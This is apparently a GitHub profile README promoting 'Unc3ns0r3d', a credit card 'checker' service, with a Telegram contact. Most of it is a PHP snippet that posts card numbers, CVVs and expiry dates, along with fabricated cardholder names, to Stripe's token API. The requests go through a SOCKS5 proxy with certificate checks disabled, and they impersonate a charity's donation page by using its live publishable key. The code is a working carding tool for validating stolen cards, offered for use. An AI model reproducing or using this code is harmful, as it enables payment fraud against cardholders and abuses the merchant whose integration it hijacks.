 <a href="http://uncensored.vzpla.net/"><img src="https://i62.servimg.com/u/f62/12/98/31/84/logo10.jpg?v=3&s=200" title="Unc3ns0r3d Checker" alt="Unc3ns0r3d Checker"></a>

# ⛔DONT LOVE :XD⛔


### About Me 👨‍💻

Founder of Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Closed)

My favorite programming languages are C ++, VB.NET, PYTHON, PHP, JAVASCIPRT and JQUERY❤

I love coffee❤

The Unc3ns0r3d project was created 04/26/2018

### Contact Me ✉
- @MrPopos2 - Telegram

================================================================

> Idioma: ES (Español)

Checker de tarjetas de crédito, basado en sistemas de donación reales y stripe

```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$nombre = datosnombre();
$apellido = datosapellido();
$email = email($nombre);
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'https://api.stripe.com/v1/tokens');
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_PROXY, $proxy);
curl_setopt($ch, CURLOPT_PROXYTYPE, CURLPROXY_SOCKS5);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0',
'Accept: application/json',
'Referer: https://js.stripe.com/v3/controller-e5a3104782ffac207edc3af004b9574b.html',
'Content-Type: application/x-www-form-urlencoded',
'Connection: keep-alive'));

curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$nombre.'+'.$apellido.'&card[address_line1]=&card[address_city]=&card[address_zip]=10001&card[currency]=USD&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=2a88d519-e56f-467a-9c63-c361a277ff54&muid=3190efac-5abc-4dac-9a48-03367b5b0064&sid=300c2fa4-1b47-44d1-8dfa-e0eb6728f2c3&payment_user_agent=stripe.js%2Fb78d06c%3B+stripe-js-v3%2Fb78d06c&referrer=https%3A%2F%2Fsecure.avaaz.org%2Fdonate%2Fpub-iframe.php%2F%3Fcid%3D3116%26lang%3Des%26sourceUrl%3Dhttps%253A%252F%252Fsecure.avaaz.org%252Fes%252Fdonate%252F&key=pk_live_eT3tlxY6x7Nzg9eDNkMYz99F&pasted_fields=number');
```


